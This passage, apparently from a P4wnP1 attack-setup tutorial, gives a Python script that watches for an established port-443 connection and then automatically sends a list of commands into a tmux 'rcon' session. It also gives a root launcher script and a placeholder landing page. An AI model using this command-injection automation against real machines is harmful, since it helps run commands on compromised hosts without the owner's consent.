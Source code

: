 ```python
  # check for active TCP session on port 443
  global con_443
  connections = psutil.net_connections(kind='tcp4')
  for index, connection in enumerate(connections):
    try:
      if psutil.net_connections(kind='tcp4')[index].laddr.port == 443 and psutil.net_connections(kind='tcp4')[index].status == 'ESTABLISHED' and con_443 != 1:
        con_443 = 1
        for c in cmds:
          try:
            os.system("tmux send -t rcon.0 %s ENTER" % c)
            print(c)
            time.sleep(1)
          except IndexError:
            print("Error running: %s" % c)
    except IndexError:
      con_443 = 0
  return con_443

while True:
    try:
      check_session()
      time.sleep(5)
    except KeyboardInterrupt:
      sys.exit(-1)
```

Since this script will need to be executed as root we'll set this one up below to be started by the P4wnP1's Trigger Actions.

*/usr/local/P4wnP1/scripts/tmux_cmdinject.sh*
```bash
#!/bin/bash
python3 /root/scripts/tmux_cmdinject.py
```

#### The landing page
For the landing page I grabbed a classic Aku and set that as the sites background and called it fin.  Just drop the background image of choice in the */var/www/html* directory.  
<br>  


*/var/www/html/index.html*
```html
<html>
<body background="Aku_bg.jpeg">
</body>
</html>
```
